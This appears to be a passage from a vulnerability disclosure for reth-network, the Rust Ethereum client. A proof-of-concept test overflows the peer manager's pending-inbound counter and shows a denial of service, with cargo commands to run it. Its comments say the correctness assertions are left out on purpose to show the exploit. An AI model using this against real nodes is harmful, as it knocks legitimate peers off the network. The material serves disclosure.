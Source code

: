 ```rust
    // because any number of connections can be made here without getting any rejections
    for i in 0..4 {
        let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, (i + 10) as u8)), 8008);
        // TODO: a correct unit test should assert that these are rejected, since all of
        // our trusted peers are connected and max inbound is full
        // However, we will not make this assertion now in order to demonstrate the full exploit
        peers.on_incoming_pending_session(socket_addr.ip()).unwrap();

        pending_addrs.push(socket_addr);
    }

    let err = PendingSessionHandshakeError::Eth(EthStreamError::P2PStreamError(
        P2PStreamError::HandshakeError(P2PHandshakeError::Disconnected(
            DisconnectReason::UselessPeer,
        )),
    ));

    // Remove all pending peers
    // For a debug build this will panic due to subtraction overflow
    for pending_addr in pending_addrs {
        peers.on_incoming_pending_session_dropped(pending_addr, &err);
    }
    
    // For a release build we will now have an overflown num_pending_in
    // TODO: a correct unit test should assert this is zero, but we will proceed
    // to demonstrate the full exploit
    println!("num_pending_in: {}", peers.connection_info.num_pending_in);

    println!("num_inbound: {}, has_in_capacity: {}", peers.connection_info.num_inbound, peers.connection_info.has_in_capacity());

    // Now we disconnect one of the established sessions, so a pending session
    // *should* be able to connect. However, the overflow will instead lead to a DoS
    // because num_pending_in is far too large

    peers.on_active_session_gracefully_closed(connected_untrusted_peer_ids[0]);

    println!("num_inbound: {}, has_in_capacity: {}", peers.connection_info.num_inbound, peers.connection_info.has_in_capacity());

    let socket_addr = SocketAddr::new(IpAddr::V4(Ipv4Addr::new(127, 0, 1, 99)), 8008);
    // This assertion would not fail if things were working correctly
    assert!(peers.on_incoming_pending_session(socket_addr.ip()).is_ok());
}
```

We expect the debug build to have an early subtraction overflow panic:

```bash
cargo test --package reth-network --lib -- peers::tests::trusted_peers_connected_bug --exact --show-output
```

The release build shows the final DoS attack, as it rejects a pending connection that should be allowed:

```bash
cargo test --package reth-network --lib --release -- peers::tests::trusted_peers_connected_bug --exact --show-output
```
